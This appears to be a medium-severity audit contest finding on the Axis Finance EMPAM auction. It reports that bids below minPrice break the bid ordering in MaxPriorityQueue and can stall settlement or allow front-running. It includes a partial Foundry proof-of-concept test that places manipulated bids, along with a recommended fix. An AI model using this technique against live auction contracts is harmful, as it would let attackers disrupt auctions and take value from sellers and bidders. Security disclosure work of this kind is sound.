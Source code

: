 Virtual Bubblegum Yak

medium

# A malicious actor can manipulate the ordering of bids, resulting in detrimental exploits of the axis-finance protocol

## Summary
After an ``EMPAM`` auction is concluded it has to be decrypted, during this operation the bids will be ordered in descending order based on their price. However there is a problem, a malicious actor can provide a bid that results in a price that is below the ``minPrice`` set by the seller of the protocol, and due to the implementation of the [_swim()](https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/lib/MaxPriorityQueue.sol#L52-L57) function this will mismatch the order of the bids, and they won't be ordered in a discending way. This is a detrimental impact for the protocol, as it will either dos the whole auction, based on the ``minFillAmount`` set by the seller, or open a frontrunning opportunity for bidders to claim their rewards, as the ``marginalPrice`` will be the ``minPrice``, this defeats the whole purpose of the EMPAM auction.
## Vulnerability Detail
[Gist](https://gist.github.com/AtanasDimulski/48947274cd9b3dd3d948ef39aa993f67)

After following the steps in the above provided [gist](https://gist.github.com/AtanasDimulski/48947274cd9b3dd3d948ef39aa993f67) add the following test to ``AuditorForkTests.t.sol`` file

```solididty
function test_ManipulatePriceOrdering() public {
        deployEMPAMAuction();

        vm.startPrank(bob);
        uint96 amountBob = 35; // Min price is set to 28, this is higher than it roughly 35 QuoteTokens(USDC) tokens for 1e18 baseTokens(SHIB)
        mockQuoteToken.mint(bob, amountBob);
        mockQuoteToken.approve(address(auctionHouse), type(uint256).max);
        uint256 amountOutBob = 1e18;
        uint256 salt = uint256(keccak256(abi.encodePacked(uint96(0), bob, amountBob)));

        // Encrypt the message
        (uint256 ciphertextB, Point memory ciphertextPubKeyB) =
            ECIES.encrypt(amountOutBob, recipientPubKey, privateKey, salt);

        Router.BidParams memory bidParamsB = Router.BidParams({
            lotId: uint96(0),
            referrer: address(0),
            amount: amountBob,
            auctionData: abi.encode(ciphertextB, ciphertextPubKeyB),
            permit2Data: ""
        });
        bytes memory callbackData_;
        auctionHouse.bid(bidParamsB, callbackData_);
        vm.stopPrank();

        maliciousBidAttacker();

        vm.startPrank(john);
        uint96 amountJohn = 37;
        mockQuoteToken.mint(john, amountJohn);
        mockQuoteToken.approve(address(auctionHouse), type(uint256).max);
        uint256 amountOutJohn = 1e18;
        uint256 saltJ = uint256(keccak256(abi.encodePacked(uint96(0), john, amountJohn)));

        // Encrypt the message
        (uint256 ciphertextJ, Point memory ciphertextPubKeyJ) =
            ECIES.encrypt(amountOutJohn, recipientPubKey, privateKey, saltJ);

        Router.BidParams memory bidParamsJ = Router.BidParams({
            lotId: uint96(0),
            referrer: address(0),
            amount: amountJohn,
            auctionData: abi.encode(ciphertextJ, ciphertextPubKeyJ),
            permit2Data: ""
        });
        auctionHouse.bid(bidParamsJ, callbackData_);
        vm.stopPrank();

        maliciousBidAttacker();
        createBidTom();

        vm.startPrank(rob);
        uint96 amountRob = 36;
        mockQuoteToken.mint(rob, amountRob);
        mockQuoteToken.approve(address(auctionHouse), type(uint256).max);
        uint256 amountOutRob = 1e18;
        uint256 saltR = uint256(keccak256(abi.encodePacked(uint96(0), rob, amountRob)));

        // Encrypt the message
        (uint256 ciphertextR, Point memory ciphertextPubKeyR) =
            ECIES.encrypt(amountOutRob, recipientPubKey, privateKey, saltR);

        Router.BidParams memory bidParamsR = Router.BidParams({
            lotId: uint96(0),
            referrer: address(0),
            amount: amountRob,
            auctionData: abi.encode(ciphertextR, ciphertextPubKeyR),
            permit2Data: ""
        });
        auctionHouse.bid(bidParamsR, callbackData_);
        vm.stopPrank();

        vm.rollFork(15_470_093);
        encryptedMarginalPriceAuctionModule.submitPrivateKey(uint96(0), privateKey, uint64(6));
        auctionHouse.settle(uint96(0));   
    }
```

```solididty
Logs:
  Here is the amount In:  200
```

From the above logs, we see that only a below min price is entered in the _getLotMarginalPrice() function.

NOTE: Due to time constraints the poc doesn't fully exploit the protocol, but demonstrates that it is put in a state which van easily be exploited by the impact described in the impact section. If more information is needed fell free to request a better PoC during the judging phase
## Impact
This is a detrimental impact for the protocol, as it will either dos the whole auction, based on the ``minFillAmount`` set by the seller, or open a frontrunning opportunity for bidders to claim their rewards, as the ``marginalPrice`` will be the ``minPrice``, this defeats the whole purpose of the EMPAM auction.

## Code Snippet
https://github.com/sherlock-audit/2024-03-axis-finance/blob/main/moonraker/src/lib/MaxPriorityQueue.sol#L52-L57

## Tool used
Manual Review

## Recommendation
Consider a way that to delete all prices that are below the minPrice set by the seller, when prices are being ordered in the ``MaxPriorityQueue.sol`` file